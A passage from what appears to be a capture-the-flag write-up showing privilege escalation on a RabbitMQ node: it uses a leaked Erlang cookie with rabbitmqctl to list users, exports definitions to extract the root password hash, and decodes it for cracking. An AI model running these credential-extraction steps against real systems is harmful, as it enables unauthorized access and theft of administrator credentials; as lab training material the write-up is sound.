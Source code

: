 ```
 * cowlib
 * rabbitmq_management_agent

Data directory

Node data directory: /var/lib/rabbitmq/mnesia/rabbit@forge
Raft data directory: /var/lib/rabbitmq/mnesia/rabbit@forge/quorum/rabbit@forge

Config files

 * /etc/rabbitmq/rabbitmq.conf

Log file(s)

 * /var/log/rabbitmq/rabbit@forge.log
 * /var/log/rabbitmq/rabbit@forge_upgrade.log
 * <stdout>
```


And it works, let's try to enumerate users:

```
sudo rabbitmqctl --erlang-cookie 'R2z1G0FXf6Rk2H2w' --node rabbit@forge list_users

Listing users ...
user	tags
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.	[]
root	[administrator]
```

Now, let's check root password:

```
sudo rabbitmqctl --erlang-cookie 'R2z1G0FXf6Rk2H2w' --node rabbit@forge export_definitions /tmp/data.json

cat /tmp/data.json | jq '.users[] | select(.name == "root")'
{
  "hashing_algorithm": "rabbit_password_hashing_sha256",
  "limits": {},
  "name": "root",
  "password_hash": "49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF",
  "tags": [
    "administrator"
  ]
}
```

We got our hash, we can decode it using the following command:

```
echo -n '49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF' | base64 -d | xxd -p -c 100

e3d7ba85295d1d16a2617df6f7e6630527ff2f1ebb5c43b3f6ec614811ed194f98073585
```
